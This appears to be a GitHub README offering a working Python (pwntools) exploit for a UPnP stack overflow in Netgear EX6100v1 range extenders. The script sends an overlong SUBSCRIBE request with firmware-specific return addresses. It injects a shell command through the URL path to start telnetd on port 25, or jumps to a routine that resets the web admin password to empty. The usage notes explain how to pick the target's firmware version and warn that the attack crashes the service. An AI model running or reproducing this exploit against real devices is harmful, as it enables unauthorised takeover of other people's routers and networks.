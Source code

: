 # Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
example
![image-20220420111910096](./img/image-20220420111910096.png)

